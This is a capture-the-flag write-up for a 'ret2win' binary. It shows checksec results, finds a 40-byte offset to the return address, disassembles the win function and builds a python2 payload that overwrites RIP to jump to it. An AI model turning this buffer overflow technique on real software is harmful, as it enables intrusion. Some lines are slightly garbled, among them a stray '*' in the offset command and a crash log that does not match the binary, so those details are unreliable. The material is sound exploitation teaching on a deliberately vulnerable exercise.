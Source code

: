 # Basic Test:

## Check call system into binary file
```bash
strace ./ret2win
```

## Check protection into binary file
```bash
checksec ./ret2win
```

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*40 + "B"*4*' | ./ret2win
```

## See output
```bash
sudo dmesg -T
```

	[sam. avril  8 13:18:56 2023] ret2win[31929]: segfault at a42424242 ip 0000000042424242 sp 00000000ffed7d00 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the return address to print the flag

```bash
pwngdb> disass*ret2win
```
 
	   0x0000000000400756 <+0>:     push   rbp
	   0x0000000000400757 <+1>:     mov    rbp,rsp
	   0x000000000040075a <+4>:     mov    edi,0x400926
	   0x000000000040075f <+9>:     call   0x400550 <puts@plt>
	   0x0000000000400764 <+14>:    mov    edi,0x400943
	   0x0000000000400769 <+19>:    call   0x400560 <system@plt>
	   0x000000000040076e <+24>:    nop
	   0x000000000040076f <+25>:    pop    rbp
	   0x0000000000400770 <+26>:    ret

## Payload final CLI

```bash
python2 -c 'print "A"*40 + "\x57\x07\x40\x00\x00\x00\x00\x00"' | ./ret2win #0x0000000000400757
```